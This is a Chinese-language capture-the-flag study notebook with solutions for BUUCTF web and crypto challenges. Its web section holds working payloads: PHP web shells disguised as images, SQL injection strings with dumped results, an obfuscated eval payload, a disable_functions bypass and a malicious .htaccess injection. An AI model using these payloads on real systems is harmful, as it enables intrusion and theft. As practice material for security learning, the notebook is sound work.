

//Description: CTF学习刷题笔记。记录刷题过程中遇到的问题。

//Create Date: 2025-08-13 09:04:20

//Author: channy

[toc]

# 刷 [BUUCTF](https://buuoj.cn/challenges)
使用到的工具：
1. [MD5](https://www.cmd5.com/) 部分付费
2. [Rabbit](https://www.sojson.com/encrypt_rabbit.html)
3. [中文电码](http://code.mcdvisa.com/)
4. [素数分解](https://factordb.com/)
5. [Playfair](https://rumkin.com/tools/cipher/playfair/)

# Linux(Ubuntu)下下载的文件乱码问题（Crypto中特别多）
1. 查看文件编码
```sh
file -i xxx.txt

text/plain; charset=iso-8859-1
```
iso-8859-1表示编码未知，改用enca工具查看
```sh
sudo apt install enca
enca -L zh_CN xxx.txt

Simplified Chinese National Standard; GB2312
```
说明编码是GB2312。使用iconv工具转换，即可以正常看到文件内容，可以开心地在Linux上刷题了。
```sh
iconv -f GBK -t UTF-8 乱码文件.txt -o 正常文件_utf8.txt
```

## Basic
### [1 LFI COURSE 1](https://buuoj.cn/challenges#BUU%20LFI%20COURSE%201)
```php
highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
直接在Get请求中加入file=flag参数即可
```sh
GET /?file=/flag HTTP/1.1
```
### [2 BRUTE 1](https://buuoj.cn/challenges#BUU%20BRUTE%201)
用户名试出为admin，密码为四位数字。
```sh
GET /?username=admin&password=1 HTTP/1.1
```
BurpSuite对密码进行爆破
### [3 Upload-Labs-Linux](https://buuoj.cn/challenges#Upload-Labs-Linux)
### [UPLOAD COURSE 1](https://buuoj.cn/challenges#BUU%20UPLOAD%20COURSE%201)
上传文件，发现会改名成xxx.jpg并储存在uploads上
写jpg马
```sh
echo -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell.jpg
```
访问
```
GET /index.php?file=uploads/6939648e99d96.jpg&cmd=cat%20upload.php HTTP/1.1
```
得到upload的代码
```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:54 AM
 */


if(isset($_FILES['upload_file'])) {
    @mkdir("uploads/");


    $filename = uniqid().".jpg";
    move_uploaded_file($_FILES["upload_file"]["tmp_name"],
        "uploads/" . $filename);
    echo "文件已储存在: " . "uploads/" . $filename;
}

?>
```
再看index.php的代码
```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:07 AM
 */

if(isset($_GET['file'])) {
    $re = '/^uploads\/[\d|\w]*.jpg$/m';
    $str = $_GET['file'];

    preg_match_all($re, $str, $matches, PREG_SET_ORDER, 0);

    if(count($matches) == 0 && $_GET['file'] !== 'upload.php') {
        die('你不老实哦~');
    }

    include $_GET['file'];
} else {
    Header('Location: index.php?file=upload.php');
}
```
最后发现并不需要，只要cmd中传入ls /就能发现有个flag文件，cmd=cat%20/flag可得flag
### [Juice Shop](https://buuoj.cn/challenges#Juice%20Shop)
SQL注入+爆破
### [xianzhi_xss](https://buuoj.cn/challenges#xianzhi_xss)
xss lab
### [2019 Havefun](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Havefun)
请求参数`?cat=dog`
### [2019 Knife](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Knife)
AntSword工具直连

### [2019 EasySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)
SQL漏洞，`1' or 1=1#`登录成功
```
GET /check.php?username=1%27+or+1%3D1%23&password=1 HTTP/1.1
```
### [2019 LoveSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]LoveSQL)
sql的select没有group_concat一般只回显一条记录
```sql
username=1&password=2' or 1='1' group by 3#
username=1&password=2%27%20or%201=%271%27%20group%20by%203%23

> Unknown column '4' in 'group statement'

username=1&password=2%27%20union%20select%201,2,3%23
> 2,3
username=1&password=2%27%20union%20select%201,database(),3%23
> geek
username=1&password=2%27%20union%20select%201,group_concat(table_name),3%20from%20mysql.innodb_table_stats%20where%20database_name='geek'%23
> geekuser,l0ve1ysq1
username=1&password=2%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema='geek'%20and%20table_name='geekuser'%23
> username,password
> id,username,password (table_name='l0ve1ysq1')
username=1&password=2%27%20union%20select%201,username,password%20from%20geek.geekuser%23
> admin, 251c39b7cef2c57ab4eb885d375d723a
> cl4y, wo_tai_nan_le
username=1&password=2%27%20union%20select%201,2,group_concat(id,username,password)%20from%20geek.l0ve1ysq1%23
```
### [2019 BabySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)
```
GET /check.php?username=admin&password=1'%20order%20by%206%20--%20- HTTP/1.1
> MariaDB server version for the right syntax to use near 'der  6 -- -'' at line 1
GET /check.php?username=admin&password=1'oorr'1'='1'%20--%20- HTTP/1.1
```
过滤了`or`和`by`
```
GET /check.php?username=admin&password=1'union%20select1,2,3%20--%20- HTTP/1.1
> MariaDB server version for the right syntax to use near '1,2,3 -- -'' at line 1
```
过滤了`union`和`select`，尝试带其它关键词的发现也过滤了`where`、`from`、`and`。
```
GET /check.php?username=1&password=1'%20uunionnion%20sselectelect%201,2,3--%20- HTTP/1.1
> 2, 3
GET /check.php?username=1&password=1'%20uunionnion%20sselectelect%201,group_concat(table_name),3%20ffromrom%20mysql.innodb_table_stats%20wwherehere%20database_name='geek'--%20- HTTP/1.1
> b4bsql,geekuser
GET /check.php?username=1&password=1'%20uunionnion%20sselectelect%201,group_concat(column_name),3%20ffromrom%20infoorrmation_schema.columns%20wwherehere%20table_schema='geek'%20aandnd%20table_name='geekuser'--%20- HTTP/1.1
> id,username,password (b4bsql同)
......
```
### [2019 HardSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)
报错注入
```
GET /check.php?username=1&password=1'or(updatexml(1,concat(0x7e,database(),0x7e),1));%23 HTTP/1.1
> XPATH syntax error: '~geek~'
GET /check.php?username=1&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e),1));%23 HTTP/1.1
> XPATH syntax error: '~information_schema,performance_'
GET /check.php?username=1&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1));%23 HTTP/1.1
> XPATH syntax error: '~H4rDsq1~'
GET /check.php?username=1&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema)like(database())),0x7e),1));%23 HTTP/1.1
> XPATH syntax error: '~id,username,password~'
GET /check.php?username=1&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(geek.H4rDsq1)),0x7e),1));%23 HTTP/1.1
> XPATH syntax error: '~1flagflag{7acb6ee1-7e45-43ba-95'
GET /check.php?username=1&password=1'or(updatexml(1,right(concat(0x7e,(select(group_concat(password,id))from(geek.H4rDsq1)),0x7e),40),1));%23 HTTP/1.1
> XPATH syntax error: 'ee1-7e45-43ba-9594-00cbbe785abe}'
```
### [2019 FinalSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)
盲注。。。

### [File](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)
xxx.php后直接接?xxx=，一直写成xxx.php/?xxx=一直没反应到怀疑人生。。。
```
POST /secr3t.php?file=php://filter/read=convert.Base64-encode/resource=flag.php
......
Content-Type: application/x-www-form-urlencoded

<?php phpinfo(); ?>
```
### [Upload](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload)
```sh
GIF89a
<?php @eval($_POST['cmd']);?>

# 或
<script language="php">eval($_POST['cmd']);</script>
```
使用`<?xxx`的或后缀`.php`的都上传不成功，拦截`<?`或`php`文件，改用`<script`的和`.phtml`的可以，上传到了upload文件夹下。再用AntSword连接得到flag

### [PHP](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)
```sh
$ ./dirsearch.py -u http://c65280b2-9099-46ee-8182-3f20914c830c.node5.buuoj.cn:81/ -e "*" --delay 0.1 -t 1 -i 200,403

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz
HTTP method: GET | Threads: 1 | Wordlist size: 15045

Target: http://c65280b2-9099-46ee-8182-3f20914c830c.node5.buuoj.cn:81/

[09:04:13] Scanning: 
[09:25:49] 403 -   327B - /cgi-bin/
[09:30:42] 403 -   325B - /error/
[09:31:49] 200 -     0B - /flag.php
[09:34:17] 200 -    2KB - /index.php
[09:34:19] 200 -   10KB - /index.js
[09:34:23] 200 -    2KB - /index.php/login/
[09:54:16] 200 -    6KB - /www.zip

Task Completed
```
`www.zip`中有源码，序列化题
```php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
```
构造
```
<?php
class Name {
        private $username = "admin";
        private $password = 100;
}
$name = new Name('', '');
echo serialize($name);
?>
```
得
```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```
但需要把"Name":2改成3绕过`__wakeup`，private参数还需要加`%00`，最终得到
```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;} 
```
> 在 PHP 5.6.25 之前和 PHP 7.0.10 之前的版本中，如果序列化字符串中表示的对象属性个数大于实际对象的属性个数，__wakeup() 方法将不会被调用。
### [BuyFlag](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BuyFlag)
```sh
// BurpSuite
POST /pay.php HTTP/1.1
Host: 0a2058eb-c4f0-41e0-aa41-296633296f34.node5.buuoj.cn:81
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://0a2058eb-c4f0-41e0-aa41-296633296f34.node5.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate, br
Cookie: user=1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

password=404a&money[]=100000000
```
根据F12的页面提示，改POST，先改user绕过身份验证，再数字改字符和使用数组绕过弱等于验证
### [2019 RCE ME](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]RCE%20ME)
```php
<?php
echo urlencode(~'phpinfo')
?>
```
phpinfo()变成
```
GET /?code=(~%8F%97%8F%96%91%99%90)(); 
```
查看phpinfo返回页面`disable_functions`显示`system`被禁用。构造马
```php
<?php
$a = 'assert'; 
echo urlencode(~$a);
echo ("<p>");
$b = '(eval($_POST[cmd]))';
echo urlencode(~$b)
?>
```
变成
```
GET /?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6); 
```
用AntSword能够访问成功，看到flag和readflag，下一步需要绕过`disable_functions`被禁函数执行readflag  
LD_PRELOAD预加载.so库以达到覆盖系统函数的目的。  
[bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD.git)  
```
?code=$_GET['_']($_GET['__']);&_=assert&__=include('/var/tmp/bypass_disablefunc.php')&cmd=/readflag&outpath=/var/tmp/res&sopath=/var/tmp/bypass_disablefunc_x64.so

GET /?code=${~(%A0%B8%BA%AB)}['_'](${~(%A0%B8%BA%AB)}['__']);&_=assert&__=include('/tmp/bypass_disablefunc.php')&cmd=/readflag&outpath=/tmp/res&sopath=/tmp/bypass_disablefunc_x64.so HTTP/1.1
```
### [Roamphp1-Welcome](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Roamphp1-Welcome)
服务器返回405错误，GET改POST加`Content-Type: application/x-www-form-urlencoded`
```
POST /?roam[]=3&roam2[]=4 HTTP/1.1
Host: 7e79b38b-39a6-4210-98c5-9b67a8ef60cc.node5.buuoj.cn:81
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

roam1[]=1&roam2[]=2
```
phpinfo()页面中显示有个文件`f1444aagggg.php`访问返回`Flag: SYC{w31c0m3_t0_5yc_r0@m_php1}`但并不是，flag直接放在phpinfo()页面中
```
GET /f1444aagggg.php HTTP/1.1
```
### [Greatphp](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Greatphp)
php中md5和sha1的绕过
```php
<?php
class SYCLOVER {
        public $syc;
        public $lover;
}
// 正则过滤，改用urlencode-decode/xor
$cmd = "/flag";
$cmdencode = urlencode(~$cmd);
echo $cmdencode;
echo "\n";
/* <?= ?> 等同于<?php ?> */
$str = "?><?=include~".urldecode($cmdencode)."?>";
$cls = new SYCLOVER();
// 同一行保证message相同，但类本身因错误码不同而不同
$a = new Error($str, 1);$b = new Error($str, 2); 

$cls->syc = $a; 
$cls->lover = $b; 

echo urlencode(serialize($cls));
?>
```
### [Roamphp2-Myblog](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Roamphp2-Myblog)
```
GET /index.php?page=php://filter/read=convert.Base64-encode/resource=login HTTP/1.1

GET /index.php?page=php://filter/read=convert.Base64-encode/resource=secret HTTP/1.1
```
```php
<?php\nrequire_once("secret.php");\n
mt_srand($secret_seed);\n
$_SESSION[\'password\'] = mt_rand();\n?>\n'

<?php\n$secret_seed = mt_rand();\n?>\n
```
登录失败页面
```
http://c6f1a9dc-119f-4e60-a86d-52adac541ade.node5.buuoj.cn:81/?page=admin/user

GET /index.php?page=php://filter/read=convert.Base64-encode/resource=admin/user HTTP/1.1
```
```php
if (isset($_POST[\'username\']) and isset($_POST[\'password\'])){\n\t
if ($_POST[\'username\'] === "Longlone" and $_POST[\'password\'] == $_SESSION[\'password\']){  // No one knows my password, including 
myself\n\t\t
$logined = true;

<?php
if(isset($_FILES['Files']) and $_SESSION['status'] === true){
    $tmp_file = $_FILES['Files']['name'];
    $tmp_path = $_FILES['Files']['tmp_name'];
    if(($extension = pathinfo($tmp_file)['extension']) != ""){
        $allows = array('gif','jpeg','jpg','png');
        if(in_array($extension,$allows,true) and in_array($_FILES['Files']['type'],array_map(function($ext){return 'image/'.$ext;},$allows),true)){
            $upload_name = sha1(md5(uniqid(microtime(true), true))).'.'.$extension;
            move_uploaded_file($tmp_path,"assets/img/upload/".$upload_name);
            echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
        } else {
            echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
        }
    }
}
?>
```
login页面产生password -> 登录提交SSID、username和password -> 后台对比password -> 提交抓包置空SSID和password绕过  

phpinfo一句话码.php打包成.zip上传访问，zip://bagname#filename流中的文件都会被当成php，但get遇到#会解析故需要转义
```
GET /index.php?page=zip://./assets/img/upload/xxx_uploadname.jpg%23xxx_filename HTTP/1.1
GET /index.php?page=phar://./assets/img/upload/xxx_uploadname.jpg/xxx_filename HTTP/1.1
```
页面均显示空白...  

看了wp都是这个路，但本人尝试多遍均返回空白内容，返回200但Content-Length: 0，暂且记下

### [Cross](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Cross)
03页面中得到300个随机数

### [easyphp](https://buuoj.cn/challenges#[%E7%BE%8A%E5%9F%8E%E6%9D%AF2020]easyphp)
```sh
GET /?filename=test.php&content=<?php%20@eval($_POST['cmd']);?> HTTP/1.1
```
但访问test.php直接显示内容
```
<?php @eval($_POST['cmd']);?>
Hello, world
```
也就是说，只有index.php能够作为php被解析。采用.htaccess配置auto_prepend_file注入，#(%23)注释，\(%5c)连接，\n(%0a)换行，;(%3b)，?(%3f)，>(%3e)
```sh
php_value auto_prepend_fil\
e .htaccess
#<?php system('cat /fla?'); ?>\

?filename=.htaccess&content=php_value%20auto_prepend_fil%5C%0Ae%20.htaccess%0A%23%3C%3Fphp%20system('cat%20/fla?')%3B%3F%3E%5C


php_value auto_prepend_fil\
e .htaccess%
#<?php @eval($_POST['cmd']);?>\
Hello, world

?filename=.htaccess&content=php_value%20auto_prepend_fil%5C%0Ae%20.htaccess%0A%23%3C%3Fphp%20@eval($_POST['cmd'])%3B%3F%3E%5C
```

## Crypto
### [1 base64](https://buuoj.cn/challenges#%E4%B8%80%E7%9C%BC%E5%B0%B1%E8%A7%A3%E5%AF%86)
使用BurpSuite工具中的Decode直接解码即可
```sh
ZmxhZ3tUSEVfRkxBR19PRl9USElTX1NUUklOR30=
```
### [2 MD5](https://buuoj.cn/challenges#MD5)
```sh
e00cf25ad42683b3df678c61f42c6bda
```
只能暴力短长度的，结果为admin1，算了几分钟。而[cmd5.com](https://www.cmd5.com/)里面秒级别地很快出结果。。。
```py
from hashlib import md5
import string
import itertools

def trysimple(target_md5 = 'e00cf25ad42683b3df678c61f42c6bda', maxlen = 10):
    found = False
    charset = string.digits + string.ascii_lowercase
    for curlen in range(1, maxlen):
        print('curlen = ', curlen)
        for part in itertools.product(charset, repeat=curlen):
            part = ''.join(part)
            part_md5 = md5(part.encode()).hexdigest()
            if part_md5 == target_md5:
                found = True
                break
        if found:
            break
    print(part if found else 'not found!!!')

if __name__ == '__main__':
    trysimple()
```
### [3 URL](https://buuoj.cn/challenges#Url%E7%BC%96%E7%A0%81)
使用BurpSuite工具中的Decode直接解码即可
```
%66%6c%61%67%7b%61%6e%64%20%31%3d%31%7d
```
### [4 Char Circle](https://buuoj.cn/challenges#%E7%9C%8B%E6%88%91%E5%9B%9E%E6%97%8B%E8%B8%A2)
根据前四位对应flag推出字母表循环前移13位
```py
import string

content = 'synt{5pq1004q-86n5-46q8-o720-oro5on0417r1}'

# s->f, y->l, n->a, t->g, 
print(ord('s') - ord('f'))
print(ord('y') - ord('l'))
print(ord('n') - ord('a'))
print(ord('t') - ord('g'))
# 13

result = ''
for c in content:
    if c <= 'z' and c >= 'a':
        cord = ord(c)
        n = cord - 13
        if n < ord('a'):
            n += 26
        result += chr(n)
    else:
        result += c
print(result)
```
### [5 Morse Cipher](https://buuoj.cn/challenges#%E6%91%A9%E4%B8%9D)
```
.. .-.. --- ...- . -.-- --- ..-
```
```sh
A: .-    B: -...    C: -.-.    D: -..    E: .    F: ..-.    G: --.    H: ....    I: ..    J: .---    K: -.-    L: .-..    M: --    N: -.    O: ---    P: .--.    Q: --.-    R: .-.    S: ...    T: -    U: ..-    V: ...-    W: .--    X: -..-    Y: -.--    Z: --..
```
### [6 password](https://buuoj.cn/challenges#password)
```sh
姓名：张三
生日：19900315
key格式为key{xxxxxxxxxx}
```
flag{zs19900315} 好无聊。。。
### [7 Modified Caesar Cipher 变异凯撒](https://buuoj.cn/challenges#%E5%8F%98%E5%BC%82%E5%87%AF%E6%92%92)
Caesar: new = (old + offset) % mod  标准凯撒通常只处理字母  
Modifier Caesar: 每个字母使用不同的offset或不同的原表等...
```py
content = 'afZ_r9VYfScOeO_UL^RWUc'

# a->f, f->l, Z->a, _->g, 
print(ord('a') - ord('f'))
print(ord('f') - ord('l'))
print(ord('Z') - ord('a'))
print(ord('_') - ord('g'))
# -5, -6, -7, -8

result = ''
id = 5
for c in content:
    cord = ord(c)
    n = cord + id
    result += chr(n)
    id += 1
print(result)
```
### [8 Quoted-printable](https://buuoj.cn/challenges#Quoted-printable)
Python 的 quopri 标准库就是专门用来处理 Quoted-printable 编码的
```py
import quopri

encoded_text = "=E9=82=A3=E4=BD=A0=E4=B9=9F=E5=BE=88=E6=A3=92=E5=93=A6"
decoded_bytes = quopri.decodestring(encoded_text)
decoded_text = decoded_bytes.decode('utf-8')
print("解码结果:", decoded_text)
```
### [9](https://buuoj.cn/challenges#%E7%AF%B1%E7%AC%86%E5%A2%99%E7%9A%84%E5%BD%B1%E5%AD%90)
根据前缀发现隔一个字符取一个字符，取完发现`flag{wethinkw`少了后半部分，隔的那些接上。
```py
encoded_text = "felhaagv{ewtehtehfilnakgw}"
pre = ""
last = ""
for idx, c in enumerate(encoded_text):
    if (idx & 1) == 1:
        last += c
    else:
        pre += c
print(pre + last)
```
### [10 Rabbit](https://buuoj.cn/challenges#Rabbit)
使用在线解密网站即可。。。很好奇网站使用的算法是怎么样的为什么那么快。。。
### [11 RSA](https://buuoj.cn/challenges#RSA)
扩展欧几里得算法，对于任意整数 a 和 b，存在整数 x 和 y，使得 $$ a * x + b * y = gcd(a, b)$$ 
已知p,q,e求d, d即为flag。则 $n = p * q$, $\phi(n) = (p - 1) * (q - 1)$, 公钥$(e, \phi(n))$有 $gcd(\phi(n), e) = 1$, 私钥(d, n)有 $(e * d) mod \phi = 1$
```py
p = 473398607161
q = 4511491
e = 17

n = p * q
phi = (p - 1) * (q - 1)
print(f"e = {e}, n = {n}, phi = {phi}")

# (e * d) mod phi = 1
# ax + by = gcd(a, b)
# x_n = 0, y_n = 1; x_i = y_{i+1}, y_i = x_{i + 1} - q_i * y_{i + 1}
def calcaxby(a, b):
    if a < b:
        tmp = a
        a = b
        b = tmp
    ql = []
    ql.append(a // b)
    r = a % b
    while r != 0:
        a = b
        b = r
        ql.append(a // b)
        r = a % b

    x = 0
    y = 1
    idx = len(ql) - 2
    while idx >= 0:
        xn = y
        yn = x - ql[idx] * y
        x = xn
        y = yn
        idx -= 1
    return x, y

_, d = calcaxby(e, phi)
print(f"d = {d}")
```
### [12 Missing MD5](https://buuoj.cn/challenges#%E4%B8%A2%E5%A4%B1%E7%9A%84MD5)
把python2的print res改成python3的print(des)即可运行，秒级时间出结果，得到的md5结果即为flag。一开始以为原文是，结果提交发现incorrect。没明白考点在哪。。。
### [13 Alice and Bob](https://buuoj.cn/challenges#Alice%E4%B8%8EBob)
```sh
密码学历史中，有两位知名的杰出人物，Alice和Bob。他们的爱情经过置换和轮加密也难以混淆，即使是没有身份认证也可以知根知底。就像在数学王国中的素数一样，孤傲又热情。下面是一个大整数:98554799767,请分解为两个素数，分解后，小的放前面，大的放后面，合成一个新的数字，进行md5的32位小写哈希，提交答案。 注意：得到的 flag 请包上 flag{} 提交
```
```py
import math
import hashlib
n = 98554799767

def isprime(x):
    if x == 2:
        return True
    if (x & 1) == 0:
        return False
    maxn = (int)(math.sqrt(x)) + 1
    for i in range(3, maxn, 2):
        if (x % i == 0):
            return False
    return True

maxn = (int)(math.sqrt(n)) + 1
num = 0
for i in range(3, maxn, 2):
    if isprime(i):
        q = n // i
        r = n % i
        if r != 0:
            continue
        if isprime(q):
            print(f"n {n} = i {i} * q {q}")
            print(f"{i}{q}")
            num = (str(i) + str(q))
            break

# num = 101999966233
res = hashlib.md5(num.encode()).hexdigest()
print(res)
```
### [14 ](https://buuoj.cn/challenges#%E5%A4%A7%E5%B8%9D%E7%9A%84%E5%AF%86%E7%A0%81%E6%AD%A6%E5%99%A8)
```sh
题目大意：
以下密文被解开后可以获得一个有意义的单词：FRPHEVGLL
用这个相同的加密向量加密ComeChina
```
标准的恺撤加密
```py
def calculateOffset():
    text = 'FRPHEVGL'
    for offset in range(1, 26):
        ntext = ''
        for c in text:
            nc = ord(c) + offset
            if nc > ord('Z'):
                nc -= 26
            if nc < ord('A'):
                nc += 26
            
            ntext += chr(nc)
        print(f"offset = {offset}, ntext = {ntext.lower()}")

calculateOffset()
# offset = 13, ntext = security

def calculateEncode():
    plaintext = 'ComeChina'
    encodetext = ''
    offset = 13
    for c in plaintext:
        nc = ord(c) + offset
        if ord(c) >= ord('A') and ord(c) <= ord('Z'):
            if nc > ord('Z'):
                nc -= 26
            if nc < ord('A'):
                nc += 26
        else:
            if nc > ord('z'):
                nc -= 26
            if nc < ord('a'):
                nc += 26
        encodetext += chr(nc)
    print(encodetext)

calculateEncode()
```
### [15 rsarsa](https://buuoj.cn/challenges#rsarsa)
最终解得的明文就是flag，不用转字符不用转16进制
```py
p =  9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q =  11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407
e =  65537
c =  83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034

def extended_gcd(a, b):
    if b == 0:
        return (a, 1, 0)
    else:
        gcd, x, y = extended_gcd(b, a % b)
        return (gcd, y, x - (a // b) * y)

def modinv(a, m):
    """计算模逆元"""
    gcd, x, y = extended_gcd(a, m)
    if gcd != 1:
        return None  # 逆元不存在
    else:
        return x % m

def calc_keys(p, q, e):
    n = p * q
    phi = (p - 1) * (q - 1)
    d = modinv(e, phi)
    return ((e, n), (d, n))

def decrypt(ciphertext, private_key):
    d, n = private_key
    print(ciphertext)
    message = pow(ciphertext, d, n)
    return message

if __name__ == '__main__':
    public_key, private_key = calc_keys(p, q, e)
    message = decrypt(c, private_key)
    print(message)
```
### [16 Windows System Password](https://buuoj.cn/challenges#Windows%E7%B3%BB%E7%BB%9F%E5%AF%86%E7%A0%81)
使用md5解密网站可以解得`good-luck`。看到网站上有说用数据库，感觉可能使用的是打表法？否则难以解释如此快的解密速度？  
解密原理：
```py
import hashlib
from Crypto.Cipher import DES
import binascii
'''
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ctf:1002:06af9108f2e1fecf144e2e8adef09efd:a7fcb22a88038f35a8f39d503e7f0062:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:bef14eee40dffbc345eeb3f58e290d56:::
'''
def lm_hash(password = ""):
    # Step 1: Convert to uppercase
    password = password.upper()
    
    # Step 2: Pad to 14 bytes with null bytes
    password = password.ljust(14, '\0')[:14]
    
    # Step 3: Split into two 7-byte halves
    first_half = password[:7]
    second_half = password[7:]
    
    # Step 4: Convert each half to DES key
    def make_des_key(seven_bytes):
        # Add parity bits to create 8-byte DES key
        key = []
        for byte in seven_bytes.encode('ascii'):
            key.append(byte)
            parity = 0
            for i in range(7):
                if byte & (1 << i):
                    parity ^= 1
            key[-1] = (key[-1] & 0xFE) | parity
        while len(key) < 8:
            key.append(0)
        return bytes(key[:8])
    
    key1 = make_des_key(first_half)
    key2 = make_des_key(second_half)
    
    # Step 5: DES encrypt magic string
    magic_string = b'KGS!@#$%'
    
    cipher1 = DES.new(key1, DES.MODE_ECB)
    encrypted1 = cipher1.encrypt(magic_string)
    
    cipher2 = DES.new(key2, DES.MODE_ECB)
    encrypted2 = cipher2.encrypt(magic_string)
    
    # Step 6: Concatenate results
    lm_hash = encrypted1 + encrypted2
    
    return binascii.hexlify(lm_hash).decode()

def ntlm_hash(password = ""):
    ntlm_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest()
    return ntlm_hash

# Guest password is empty
print(lm_hash(password=""), ntlm_hash(password=""))
```
### [17 Information](https://buuoj.cn/challenges#%E4%BF%A1%E6%81%AF%E5%8C%96%E6%97%B6%E4%BB%A3%E7%9A%84%E6%AD%A5%E4%BC%90)
试过多种编码没解出，使用[中文电码](http://code.mcdvisa.com/)网站在线查询可得"计算机要从娃娃抓起"。。。
```py
encodetext = 606046152623600817831216121621196386
# not md5, cmd5 web not found
# hex 0x74b861dd729887f92889fba8f32e62
hextext = hex(encodetext)
print(hextext)

hextext = "74b861dd729887f92889fba8f32e62"
text_bytes = bytes.fromhex(hextext)
text_origin = text_bytes.decode('hz-gb-2312')
print(text_origin)
```
中文电码（Chinese Telegraph Code），也称为中文电报码或标准电码，是一种将汉字转换为数字代码的系统，主要用于电报通信。每个汉字对应一个4位数字代码（0000-9999）中国国家标准 GB 8565.2-88
